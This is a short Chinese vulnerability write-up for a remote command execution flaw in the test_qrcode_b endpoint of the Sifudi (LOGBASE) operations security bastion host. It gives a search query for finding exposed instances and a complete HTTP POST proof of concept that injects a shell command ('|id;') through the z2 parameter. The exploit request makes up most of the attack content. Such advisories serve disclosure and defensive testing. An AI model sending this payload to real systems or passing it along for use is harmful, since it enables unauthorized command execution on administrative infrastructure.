


思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞¶
漏洞描述¶
思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。
漏洞影响¶
思福迪 运维安全管理系统
网络测绘¶
app="思福迪-LOGBASE"
漏洞复现¶
登陆页面

poc
POST /bhost/test_qrcode_b HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip
z1=1&z2="|id;"&z3=bhost
